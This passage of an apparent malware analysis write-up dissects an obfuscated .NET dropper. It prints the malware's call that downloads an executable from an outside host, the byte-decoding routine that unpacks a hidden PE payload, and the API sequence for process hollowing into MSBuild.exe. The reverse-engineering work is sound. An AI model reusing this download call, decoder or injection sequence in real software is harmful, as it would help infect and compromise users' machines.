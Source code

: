 
#### Y4.pn.OcE() Method
The method is obfuscated using branching logical statements which make it large and difficult to read manually, but following it in the debugger I was able to extract the important pieces of the puzzle.

After jumping around multiple case statements, eventually `Y4.pn.zcu("http://inijingo22dev.online/Tlv5quZrJBTUzqG.exe", "Tlv5quZrJBTUzqG.exe")` is called. This method creates a WebClient and downloads the specified file to the location `C:\Users\<user>\AppData\Local\Temp\Tlv5quZrJBTUzqG.exe`.  

This newly downloaded file is identical in structure to the original Setup.exe binary. This might be a persistence mechanism, but I don't see any methods called to establish persistence. It is possible the functionality may be in place but not implemented properly.  

I'll be honest here, the next bit I am a little confused about. The following is executed successfully:
```C#
ResourceManager resourceManager = new ResourceManager("jf221efESkp", GetExecutingAssembly())
```
However, there is no resource with that name. Maybe dnSpy failed to extract it, but I am not sure. The `Outimurs.dll` is [here](https://malshare.com/sample.php?action=detail&hash=214bba553a2b99bedc0a5ea3095498231fe628fa2642f7af4f592b15f5faa664) if any .NET gurus want to take a look.
{{< figure src="images/resources_outimurs.png" alt="resources_outimurs" position="center" >}}

Regardless, the contents of the resource are returned as a byte array. Next, a method loops over every byte of the array, performing the following action:
```C#
byte_array[num] = ( ( toInt32((byte_array[num] ^ string_array[num % array_array.length])) - toInt32(byte_array[(num + 1)]) ) + 256 ) % 256
```
It takes each byte, XORs it with a byte from the string "zDJqayZgb", then subtracts the integer value of the byte one position ahead of it in the byte array, adds 256 to the result, and then performs modulus 256. The final value is converted back into a byte and replaces the original byte.  

The loop runs while the iterator value is `<=` the array length, so the first element gets operated on twice, at the beginning of the loop and at the very end. After the loop is complete, the last byte of the array is removed.

The end result is a byte array starting with `4D 5A` -- looks like a PE header, probably the next stage of the malware.  

#### Process Injection

Once the byte array is created, the `Y4.pn.OcE()` method gets the current .NET common language runtime directory and prepends it to the string "MSBuild.exe", creating the string `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe`. 

Note: A frozen version of MSBuild is included by default in .NET Framework 4, so a file should already exist in the location referenced by the string.

Next, `pn.RcF("C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe", byte_array)` is called. It is lengthy, so I'll list out the main points below.
```C#
struct Ti{
	IntPtr daw
	IntPtr wa1
	uint caz
	uint ISt }
	
CreateProcessA(path_to_MSBuild,  string.Empty, IntPtr.Zero, IntPtr.Zero, false, 134217732U, IntPtr.Zero, null, ref xa, ref ti)
	- dwCreationFlags: 0x08000004 -- CREATE_SUSPENDED and CREATE_NO_WINDOW
GetThreadContext(ti.wa1, thread_context_array)

ReadProcessMemory(ti.daw, thread_context_array[41] + 8, buffer, 4, false)
VirtualAllocEx(ta.daw, 0x00400000, 0x0001D000, 12288, 64)
	- Last argument, 64, translates to 0x40 or PAGE_EXECUTE_READWRITE
	- Argument 12288 translates to MEM_COMMIT & MEM_RESERVE -- ensures bytes of reserved memory are zeroed out
```